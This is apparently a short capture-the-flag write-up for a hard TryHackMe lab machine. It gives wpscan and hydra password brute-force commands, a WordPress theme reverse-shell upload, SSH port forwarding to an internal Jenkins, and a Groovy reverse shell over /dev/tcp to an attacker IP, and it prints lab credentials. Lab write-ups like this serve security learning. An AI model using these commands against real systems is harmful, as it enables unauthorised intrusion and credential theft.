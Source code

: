 tryhackme box (Hard)

## Recon
did an nmap scan on the target to get the output as 2 open ports.

open_ports: http(80) and ssh(22)

gobuster scan on the target on port 80 revealed a wordpress site on the url `/blog`. So I added the ip to hosts and reloaded the site.

In the meantime enumerate for users using wpscan.

## Enumeration
`wpscan --url HOST-IP/blog --enumerate`

The enumeration for the users only gave up 1 username i.e. `admin`

Running a brute-force with wpscan on the target with username `admin` we get the password.

`wpscan --url HOST-IP/blog --usernames admin --passwords rockyou.txt`

Starting from brute-force on wordpress site.

It found a match.
`admin : my2boys` --> wordpress

## Exploiting jenkins
Uploaded a reverse shell to themes and trigger a reverse shell.

Got reverse shell and did alot of snooping around even the linpeas.sh didn't work. So, I looked at a writeup to find a hidden file in `/opt`.

That file gave a password to the user aubreanna. I log into that and there was note in there that said:

`Internal Jenkins service is running on 172.17.0.2:8080`

We port forward everything going here to our local machine.

`ssh -L 1234:localhost:8080 aubreanna@internal.thm`

I can open a jenkins site now on the localhost:1234.
brute-forcing the password to this jenkins site using hydra.

`hydra -l admin -P rockyou.txt -u localhost -s 1234 http-get`

We get the creds for that
`admin : spongebob` --> jenkins

## Getting the root shell
After snooping around there, I goto `run script` under `manage jenkins` tab.
There I ran a script to get a `java reverse shell` running.

`
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.14.13.156/9999;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
`

I wasn't finding anything like config files. So I ran a search for txt files.

`find -name *.txt 2>/dev/null`

I find a `note.txt` in the directory `/opt`.

In the note was password to the root account.

`root : tr0ub13guM!@#123`

Now we can get both the flags.